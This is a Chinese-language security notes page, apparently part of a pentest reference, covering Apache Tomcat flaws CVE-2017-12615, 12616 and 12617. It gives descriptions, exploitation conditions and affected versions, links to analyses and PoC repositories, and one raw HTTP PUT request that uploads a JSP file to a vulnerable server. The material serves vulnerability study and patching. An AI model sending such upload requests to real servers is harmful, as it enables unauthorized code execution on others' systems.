 **文章**
- [Tomcat漏洞详解](http://www.mottoin.com/detail/389.html)

**CVE-2017-12615/12616**
- 简介

    2017年9月19日,Apache Tomcat 官方确认并修复了两个高危漏洞,漏洞 CVE 编号:CVE-2017-12615 和 CVE-2017-12616,该漏洞受影响版本为7.0-7.80之间,官方评级为高危,在一定条件下,攻击者可以利用这两个漏洞,获取用户服务器上 JSP 文件的源代码,或是通过精心构造的攻击请求,向用户服务器上传恶意 JSP 文件,通过上传的 JSP 文件 ,可在用户服务器上执行任意代码,从而导致数据泄露或获取服务器权限,存在高安全风险。

    - CVE-2017-12615：远程代码执行漏洞

        当 Tomcat 运行在 Windows 操作系统时,且启用了 HTTP PUT 请求方法 (例如,将 readonly 初始化参数由默认值设置为 false) ,攻击者将有可能可通过精心构造的攻击请求数据包向服务器上传包含任意代码的 JSP 文件,JSP文件中的恶意代码将能被服务器执行。导致服务器上的数据泄露或获取服务器权限。

    - CVE-2017-12616：信息泄露漏洞

        当 Tomcat 中启用了 VirtualDirContext 时,攻击者将能通过发送精心构造的恶意请求,绕过设置的相关安全限制,或是获取到由 VirtualDirContext 提供支持资源服务的 JSP 源代码,从而造成代码信息泄露。

- 漏洞利用条件

    - CVE-2017-12615 漏洞利用需要在 Windows 环境,且需要将 readonly 初始化参数由默认值设置为 false,经过实际测试,Tomcat 7.x 版本内 web.xml 配置文件内默认配置无 readonly 参数,需要手工添加,默认配置条件下不受此漏洞影响。

    - CVE-2017-12616 漏洞需要在 server.xml 文件配置 VirtualDirContext 参数,经过实际测试,Tomcat 7.x 版本内默认配置无 VirtualDirContext 参数,需要手工添加,默认配置条件下不受此漏洞影响。

- 影响版本

    - CVE-2017-12615影响范围：Apache Tomcat 7.0.0 - 7.0.79 (windows环境)
    - CVE-2017-12616影响范围：Apache Tomcat 7.0.0 - 7.0.80

- 文章
    - [CVE-2017-12615/CVE-2017-12616:Tomcat信息泄漏和远程代码执行漏洞分析报告](https://paper.seebug.org/399/)

- POC | Payload | exp

    - [iBearcat/CVE-2017-12615](https://github.com/iBearcat/CVE-2017-12615)
    - [breaktoprotect/CVE-2017-12615](https://github.com/breaktoprotect/CVE-2017-12615)

    ```
    PUT /1.jsp/ HTTP/1.1
    Host: your-ip:8080
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 5

    <% out.write("<html><body><h3>[+] JSP upload successfully.</h3></body></html>"); %>
    ```

**CVE-2017-12617**
- 文章
    - [CVE-2017-12617-Tomcat远程代码执行漏洞复现测试](https://www.freebuf.com/vuls/150203.html)

- POC | Payload | exp
    - [cyberheartmi9/CVE-2017-12617](https://github.com/cyberheartmi9/CVE-2017-12617)
